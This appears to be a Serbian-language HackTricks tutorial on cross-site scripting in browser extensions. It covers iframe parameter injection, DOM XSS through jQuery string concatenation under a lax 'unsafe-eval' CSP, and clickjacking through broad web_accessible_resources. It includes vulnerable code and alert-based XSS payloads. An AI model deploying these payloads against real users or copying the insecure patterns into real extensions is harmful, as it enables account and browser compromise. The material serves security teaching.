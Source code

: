 # BrowExt - XSS Primer

{{#include ../../banners/hacktricks-training.md}}

## Cross-Site Scripting (XSS) putem Iframe-a

U ovoj postavci, **content script** se implementira da instancira Iframe, uključujući URL sa upitnim parametrima kao izvor Iframe-a:
```javascript
chrome.storage.local.get("message", (result) => {
let constructedURL =
chrome.runtime.getURL("message.html") +
"?content=" +
encodeURIComponent(result.message) +
"&redirect=https://example.net/details"
frame.src = constructedURL
})
```
Javna HTML stranica, **`message.html`**, je dizajnirana da dinamički dodaje sadržaj u telo dokumenta na osnovu parametara u URL-u:
```javascript
$(document).ready(() => {
let urlParams = new URLSearchParams(window.location.search)
let userContent = urlParams.get("content")
$(document.body).html(
`${userContent} <button id='detailBtn'>Details</button>`
)
$("#detailBtn").on("click", () => {
let destinationURL = urlParams.get("redirect")
chrome.tabs.create({ url: destinationURL })
})
})
```
Na stranici protivnika izvršava se zlonamerni skript, modifikujući `content` parametar izvora Iframe-a kako bi se uveo **XSS payload**. To se postiže ažuriranjem izvora Iframe-a da uključuje štetni skript:
```javascript
setTimeout(() => {
let targetFrame = document.querySelector("iframe").src
let baseURL = targetFrame.split("?")[0]
let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>"
let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`

document.querySelector("iframe").src = maliciousURL
}, 1000)
```
Previše permisivna politika bezbednosti sadržaja kao što je:
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
omogućava izvršavanje JavaScript-a, čineći sistem ranjivim na XSS napade.

Alternativni pristup za izazivanje XSS-a uključuje kreiranje Iframe elementa i postavljanje njegovog izvora da uključuje štetni skript kao `content` parametar:
```javascript
let newFrame = document.createElement("iframe")
newFrame.src =
"chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>")
document.body.append(newFrame)
```
## DOM-based XSS + ClickJacking

Ovaj primer je preuzet iz [originalnog posta](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

Osnovni problem proističe iz DOM-bazirane Cross-site Scripting (XSS) ranjivosti koja se nalazi u **`/html/bookmarks.html`**. Problematični JavaScript, deo **`bookmarks.js`**, je detaljno opisan u nastavku:
```javascript
$("#btAdd").on("click", function () {
var bookmarkName = $("#txtName").val()
if (
$(".custom-button .label").filter(function () {
return $(this).text() === bookmarkName
}).length
)
return false

var bookmarkItem = $('<div class="custom-button">')
bookmarkItem.html('<span class="label">' + bookmarkName + "</span>")
bookmarkItem.append('<button class="remove-btn" title="delete">x</button>')
bookmarkItem.attr("data-title", bookmarkName)
bookmarkItem.data("timestamp", new Date().getTime())
$("section.bookmark-container .existing-items").append(bookmarkItem)
persistData()
})
```
Ovaj deo koda preuzima **vrednost** iz **`txtName`** ulaznog polja i koristi **spajanje stringova za generisanje HTML-a**, koji se zatim dodaje u DOM koristeći jQuery-ovu `.append()` funkciju.

Obično bi Chrome ekstenzija Content Security Policy (CSP) sprečila takve ranjivosti. Međutim, zbog **opuštanja CSP-a sa ‘unsafe-eval’** i korišćenja jQuery-ovih metoda manipulacije DOM-om (koje koriste [`globalEval()`](https://api.jquery.com/jquery.globaleval/) za prosleđivanje skripti u [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) prilikom umetanja u DOM), eksploatacija je i dalje moguća.

Iako je ova ranjivost značajna, njena eksploatacija obično zavisi od interakcije korisnika: posete stranici, unošenja XSS payload-a i aktiviranja dugmeta “Add”.

Da bi se pojačala ova ranjivost, koristi se sekundarna **clickjacking** ranjivost. Manifest Chrome ekstenzije prikazuje opširnu `web_accessible_resources` politiku:
```json
"web_accessible_resources": [
"html/bookmarks.html",
"dist/*",
"assets/*",
"font/*",
[...]
],
```
Značajno, stranica **`/html/bookmarks.html`** je podložna uokviravanju, što je čini ranjivom na **clickjacking**. Ova ranjivost se koristi za uokviravanje stranice unutar napadačeve stranice, prekrivajući je DOM elementima kako bi se obmanjujuće redizajniralo korisničko sučelje. Ova manipulacija dovodi žrtve do nehotice interakcije sa osnovnom ekstenzijom.

## References

- [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
- [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{{#include ../../banners/hacktricks-training.md}}
